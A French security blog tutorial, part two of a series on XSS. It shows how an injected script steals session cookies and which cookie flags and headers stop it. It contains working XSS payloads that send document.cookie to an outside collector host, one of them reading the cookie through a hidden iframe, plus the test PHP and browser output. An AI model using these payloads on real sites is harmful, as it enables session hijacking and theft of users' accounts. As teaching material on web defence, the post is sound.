 ```yaml
---
layout: post
title:  "XSS: Vol de cookies (Partie 2)"
date:   2016-08-15
categories: web
---
```

XSS  et vol de cookies par la pratique.
----------

**Vous reprendrez bien un cookie ?**
  
Dans le [premier volet]({{ site.url }}/xss-cors-csrf-partie-1-xss) de notre saga, nous traitions des attaques XSS et des moyens de s’en prémunir. Ces vulnérabilités peuvent être utilisées pour voler vos informations de session ou vous rediriger vers un site frauduleux. Vous vous dîtes sûrement : "ok coco en théorie c’est bien sympa tout ça, mais en quoi consiste le vol d’une session, quelles informations sont envoyées et où part la requête ?".  
  
Imaginons la configuration suivante :
  
![Configuration de l'attaque]({{ site.url }}/public/images/xss-cors-csrf/cors_1.png)
  
Un internaute requête le site *www.site-a.com* qui est un site de confiance mais vulnérable au XSS. Un pirate pourra injecter le code suivant :  

```html
Juste un petit coucou !
<script>
	var xhr = new XMLHttpRequest();
	xhr.open('GET', 'http://requestb.in/w7iy5sw7?cookie=' + encodeURI(document.cookie));
	xhr.send();
</script>
```
  
Pour notre test nous partirons sur le postulat que *www.site-a.com* est notre *localhost*, et que *www.site-b.com* (le site du pirate qui récupère les infos) correspond au site *http://requestb.in*.  

> Le site **http://requestb.in** est très utile pour analyser les requêtes HTTP.  

Lorsque le script est exécuté, ce dernier accède au **document.cookie** qui correspond au cookie du document HTML courant contenant l’id de session. Ce dernier peut ressembler à ceci :  

![Exemple cookie 1]({{ site.url }}/public/images/xss-cors-csrf/cors_2.png)
Ou bien ceci :  

![Exemple cookie 2]({{ site.url }}/public/images/xss-cors-csrf/cors_3.png)  
Nous reviendrons sur ce dernier cas par la suite car ce dernier est un cookie sécurisé. Je vous recommande sous Chrome d’installer l’extension [Cookie Inspector]( https://chrome.google.com/webstore/detail/cookie-inspector/jgbbilmfbammlbbhmmgaagdkbkepnijn).  
  
Pour nos tests voici la configuration mise en place :  

 - Une page *http://localhost/secu/cookie.php*:  

```php
<?php
	setcookie('PHPSESSID_secure', 'jm5mah0a9uuf4g344096nled73', 0, '/secu', $_SERVER['SERVER_NAME'], isset($_SERVER["HTTPS"]), true);
	setcookie('PHPSESSID_unsecured', 'jm5mah0a9uuf4g344096nled73', 0, '/', $_SERVER['SERVER_NAME'], false, false);
?>
```  
> Vous ne pouvez pas définir de cookie pour un autre domaine.  

Les cookies générés (deux cookies à des fins de test):  
  
![Configuration cookies test]({{ site.url }}/public/images/xss-cors-csrf/cors_4.png)  
  
Les champs [Domain, Path, HTTP et Secure](https://tools.ietf.org/html/rfc6265) sont les champs qui permettront de sécuriser notre cookie:  

**domain** : le domaine racine concerné par le cookie  
**path** : détermine pour quelle arborescence à partir du domaine racine le cookie sera accessible  
**session.cookie_httponly** : empêche un cookie d’être accessible via javascript (XSS ;))  
**session.cookie_secure** : accède au cookie uniquement sur des connexions HTTPS (empêche les informations de transiter en clair – voir également la solution [HSTS](https://developer.mozilla.org/fr/docs/S%C3%A9curit%C3%A9/HTTP_Strict_Transport_Security))    
  
 - Une page vulnérable *http://localhost/xss.php* qui contient le payload vu précédemment.  
  
Ce cookie est envoyé via une requête **XMLHttpRequest** sur *requestb.in*. Regardons quelles informations sont réceptionnées :  
  
![Requestb.in get data]({{ site.url }}/public/images/xss-cors-csrf/cors_5.png) 
  
Nous récupérons bien l’id de session de notre cookie non sécurisé uniquement. Ceci a été possible car :  

  -	Faille **XSS** ayant permis l’injection de javascript
  -	Cookie avec le flag **HttpOnly** à false
  -	Requête **Cross-Origin** simple sur le site du pirate pour récupération des informations
  -	Cookie avec un **Path** permissif (toute l’arborescence du site)  
  
Il convient de définir un path pour lequel le cookie doit être actif, dans notre exemple un espace sécurisé */secu* qui sollicite le cookie session. Ainsi notre page publique vulnérable *xss.php* à la racine */* n’aurait pas été en mesure d’accéder au cookie. Modifions le path de notre cookie unsecured :  
  
```php
setcookie('PHPSESSID_unsecured', 'jm5mah0a9uuf4g344096nled73', 0, '/secu', $_SERVER['SERVER_NAME'], false, false);
```
  
Et si maintenant nous tentions dans notre payload (depuis la page *http://localhost/xss.php*) d’accéder à la page *http://localhost/secu/cookie.php*, de lui voler son cookie et de nous l’envoyer :  
  
```html
<script>    
	var xhr = new XMLHttpRequest();
	xhr.onreadystatechange = function () {

		if (xhr.readyState == 4) {
			var cookie = xhr.getResponseHeader('Set-Cookie');   
				
			var xhr2 = new XMLHttpRequest();
			xhr2.open('GET', 'http://requestb.in/w7iy5sw7?cookie=' + encodeURI(cookie), false);
			xhr2.send();
		}
	}	
	xhr.open('GET', 'http://localhost/secu/cookie.php');
	xhr.send();		  
</script>
```
  
Malheureusement nous obtenons : <span style="color: red">```Refused to get unsafe header "Set-Cookie"```</span>.  
  
La spécification **XMLHttpRequest** interdit l’accès à certains response headers pour des raisons de sécurité. Les navigateurs chrome / firefox / IE retourneront donc null ([https://fetch.spec.whatwg.org/#forbidden-header-name]( https://fetch.spec.whatwg.org/#forbidden-header-name)).  
  
<a name="iframe"></a>N’y-a-t-il pas une autre méthode que notre XHR pour charger cookie.php?  
  
```html
<script>    
	var iframe = document.createElement("iframe");
	iframe.src = "http://localhost/secu/cookie.php";
	iframe.hidden = true;            
	var iframeObj = document.body.appendChild(iframe);

	iframeObj.onload = function(){            
		var cookie = iframeObj.contentDocument.cookie;
		var xhr = new XMLHttpRequest();
		xhr.open('GET', 'http://requestb.in/w7iy5sw7?cookie=' + encodeURI(cookie));
		xhr.send();
	};          	  
</script>
```  
  
Bingo, même avec un path défini pour ce cookie, nous avons pu le récupérer, et si vous avez bien retenu votre leçon dans le [volet 1](https://phackt.github.io/xss-cors-csrf-partie-1-xss) de notre saga XSS, vous connaissez la contre-mesure à ce payload : le response header **X-Frame-Options** qui interdit qu’une page soit rendue dans un ```<frame>```, ```<iframe>``` ou ```<object>```. Bien évidemment il est préférable en amont de toujours positionner le flag **HttpOnly**. L’accès au cookie par javascript est peu justifiable dans les développements Web.  
  
> *"J’ai activé la console de mon navigateur et je remarque cependant un warning:"*  

<pre class="alert">
XMLHttpRequest cannot load http://requestb.in/w7iy5sw7?cookie=PHPSESSID_unsecured=jm5mah0a9uuf4g344096nled73.  
No 'Access-Control-Allow-Origin' header is present on the requested resource. Origin 'http://localhost' is therefore not allowed access.
</pre>   
<br /> 

> *"Nous requêtons depuis une ressource du domaine http://localhost:80 vers le domaine http://requestb.in:80, et nous avons ce message, comment se fait-il que la requête ait abouti ?"*  
  
Et bien je vous remercie d’avoir posé la question :). Nous sommes typiquement dans le cas d’une requête Cross Origin. Aujourd'hui AJAX  est omniprésent dans les développements de par l'essor des frameworks client riches comme AngularJS. Je réserve le détail du **Cross-Origin Resource Sharing** pour le dernier volet de cette saga. La connaissance du CORS est essentielle pour les développeurs WEB.  
  
Imaginez que vous surfiez sur un site frauduleux qui puisse soumettre à votre insu des requêtes sur un de vos sites préférés en incluant vos informations de session et poster des formulaires à votre place... C’est à ce niveau qu’il est essentiel de bien configurer le Cross-Origin Resource Sharing et de définir un **token de sécurité** pour éviter les attaques **Cross-Site Request Forgery**. Ceci nous montre bien que les vecteurs d'attaques sont multiples.  
  
A très bientôt et surtout...  
  
```
Keep the positive attitude ;) !
```
<br />
<br />
Références:  
[http://php.net/manual/fr/session.security.php](http://php.net/manual/fr/session.security.php)  
[https://geekflare.com/httponly-secure-cookie-apache/](https://geekflare.com/httponly-secure-cookie-apache/)  
[https://fetch.spec.whatwg.org/](https://fetch.spec.whatwg.org/)  
[https://geekflare.com/secure-cookie-flag-in-tomcat/](https://geekflare.com/secure-cookie-flag-in-tomcat/)
